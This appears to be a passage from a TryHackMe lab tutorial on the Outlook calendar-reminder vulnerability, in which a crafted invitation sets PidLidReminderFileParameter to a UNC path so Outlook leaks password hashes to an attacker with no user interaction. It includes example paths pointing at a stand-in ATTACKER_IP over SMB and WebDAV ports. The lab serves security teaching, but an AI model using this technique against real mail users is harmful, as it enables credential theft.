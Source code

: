 ## Table of Contents


You can specify the audio file played when a user gets a notification reminder for a calendar meeting or event. Typically, this would be used for a user to set up their own notifications by pointing to an audio file:

![Reminder Sound Configuration](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/471b82a81e0a4b210191dafe1a0a55e1.png)

Manipulating this parameter can enable a threat actor to force Outlook to leak the current password hashes to an attacker with zero interaction required.

Abusing Reminder Sounds via UNC Paths  

To exploit this vulnerability, create a malicious calendar invitation that includes a reference to a sound file.
This sound file ==must point to a file in a network share in the attacker's machine.== At a low level, an Outlook email stores the reference to the sound file in an internal parameter called **PidLidReminderFileParameter**. To ensure that the audio we embed in our malicious email will take precedence over the victim's default reminder configurations, we will also need to set another parameter called **PidLidReminderOverride** to `true`


o set up the **PidLidReminderFileParameter** property to point to a network share, the attacker can specify a **Universal Naming Convention (UNC)** path instead of a local file. UNC is used in Windows operating systems to find network resources (files, printers, shared documents). These paths consist of a double backslash, ==the IP address== *or* ==name== of the computer hosting the resource, the share name and the file name. For example:

`\\ATTACKER_IP\foo\bar.wav`


- If for some reason the SMB protocol isn't a viable alternative to use,

- non-server versions of Windows will accept using **UNC paths pointing to ports 80 or 443**, and use HTTP to retrieve the file from a WebDAV-enabled web server. The syntax of such UNC path is as follows:

`\\ATTACKER_IP@80\foo\bar.wav`

`\\ATTACKER_IP@443\foo\bar.wav`